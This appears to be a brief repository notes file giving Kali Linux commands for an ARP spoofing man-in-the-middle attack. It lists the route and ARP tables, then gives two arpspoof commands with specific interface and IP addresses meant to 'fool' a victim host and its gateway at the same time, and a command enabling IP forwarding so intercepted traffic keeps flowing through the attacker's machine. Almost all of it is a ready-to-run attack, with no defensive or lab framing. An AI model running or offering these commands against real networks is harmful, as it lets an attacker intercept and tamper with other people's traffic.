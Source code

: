 # Change arp using buildIn tool in kali linux

# to print the route table
`route -n`

# to print the arp table
`arp -a`
 
# both command to fool victim and gateway should run simultaneously
# command to fool victim
# command  -i(interface) -t(target) (target ip) (gateway ip)
`arpspoof -i eth0 -t 192.168.12.102 192.168.12.1`

# command to fool gateway
`arpspoof -i eth0 -t 192.168.12.1 192.168.12.102`

# by default port forwarding is disabled in linux in order to allow packets to flow from your machine
`echo 1 > /proc/sys/net/ipv4/ip_forward`